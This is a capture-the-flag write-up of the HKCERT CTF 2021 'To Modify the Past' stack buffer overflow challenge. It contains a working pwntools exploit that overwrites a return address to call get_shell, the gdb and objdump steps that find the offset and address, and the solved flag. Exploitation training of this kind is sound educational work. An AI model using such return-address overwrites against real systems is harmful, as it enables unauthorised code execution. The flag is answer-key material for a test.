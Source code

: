 ## To Modify the Past (pwn 50 pts)  
### Challenge:  
```
You may want to change something from the past, decide your future.  
This challenge contains a buffer overflow vulnerability that allows attacker to write out-of-bound, overwriting the return address on the stack.  
In order to get the flag, simply overwrite the return address with the address of get_shell function.  
Find out the number of bytes input before reaching the return address, i.e. input 1234 'A's and next 8 bytes input will overwrite the return address.  
How to find the offset: https://youtu.be/Ag0OcqbVggc?t=3408  
Find out the address of get_shell function, e.g. 0x400123  
How to find the address of a function: https://youtu.be/Ag0OcqbVggc?t=3651  
Write an exploitation script to send the payload (attack input) to the server, usually this can be done by Python and a python module pwntools, e.g. sendline(b'A'*1234+p64(0x400123))  
How to use pwntools to interact with the challenge: https://youtu.be/Ag0OcqbVggc?t=2356  
Find the flag file in the server and then cat the flag!!  
https://youtu.be/Ag0OcqbVggc?t=3824  
```
### Attachments
- [warmup_6eab9fa64b5dd76649f6c0372315aabe.zip](https://github.com/6cyril/ctf-writeups/blob/master/HKCERT%20CTF%202021/files/warmup_6eab9fa64b5dd76649f6c0372315aabe.zip)  

### Solution:  
Typical Return-to-function question    
1. Find get_shell address by gdb or objdump
```
objdump -M intel -D chall | grep get_shell
0000000000401182 <get_shell>:
```
2. Using GDB, find the offload as 120    
```
gdb-peda$ pattern create 130
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAk'
gdb-peda$ x/x $rsp
0x7ffffffee218: 0x414f41413941416a
gdb-peda$ x/s $rsp
0x7ffffffee218: "jAA9AAOAAk"
gdb-peda$ pattern offset jAA9AAOAAk
jAA9AAOAAk found at offset: 120
```
3. Send 120 "A"s + address of "get_shell" + send "Y" to return to rsp="get_shell"
4. `python3 exp.py` and get flag
```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host chalp.hkcert21.pwnable.hk --port 28028 ./chall
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./chall')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'chalp.hkcert21.pwnable.hk'
port = int(args.PORT or 28028)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

payload = b"A"*120
payload += p64(0x0401182)

io.sendline(payload)
io.sendline("Y")

io.interactive()
```
  
  
Flag: `hkcert21{be_c4r3_WIth_7he_5iZe}`  
  
